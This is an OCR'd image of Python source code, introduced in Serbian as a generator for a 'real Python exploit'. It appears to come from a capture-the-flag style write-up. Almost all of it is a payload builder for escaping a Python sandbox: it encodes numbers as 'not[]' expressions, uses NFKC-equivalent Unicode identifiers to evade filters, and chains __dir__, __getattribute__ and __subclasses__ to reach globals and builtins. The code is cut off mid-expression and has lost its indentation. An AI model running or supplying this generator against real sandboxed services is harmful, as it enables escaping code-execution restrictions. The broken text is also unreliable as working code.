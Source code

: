 I sledeće je za generisanje pravog Python eksploita.

```python
import sys
import unicodedata


class Generator:
# get numner
def __call__(self, num):
if num == 0:
return '(not[[]])'
return '(' + ('(not[])+' * num)[:-1] + ')'

# get string
def __getattribute__(self, name):
try:
offset = None.__dir__().index(name)
return f'keys[{self(offset)}]'
except ValueError:
offset = None.__class__.__dir__(None.__class__).index(name)
return f'keys2[{self(offset)}]'


_ = Generator()

names = []
chr_code = 0
for x in range(4700):
while True:
chr_code += 1
char = unicodedata.normalize('NFKC', chr(chr_code))
if char.isidentifier() and char not in names:
names.append(char)
break

offsets = {
"__delitem__": 2800,
"__getattribute__": 2850,
'__dir__': 4693,
'__repr__': 2128,
}

variables = ('keys', 'keys2', 'None_', 'NoneType',
'm_repr', 'globals', 'builtins',)

for name, offset in offsets.items():
names[offset] = name

for i, var in enumerate(variables):
assert var not in offsets
names[792 + i] = var


source = f'''[
({",".join(names)}) if [] else [],
None_ := [[]].__delitem__({_(0)}),
keys := None_.__dir__(),
NoneType := None_.__getattribute__({_.__class__}),
keys2 := NoneType.__dir__(NoneType),
get := NoneType.__getattribute__,
m_repr := get(
get(get([],{_.__class__}),{_.__base__}),
{_.__subclasses__}
```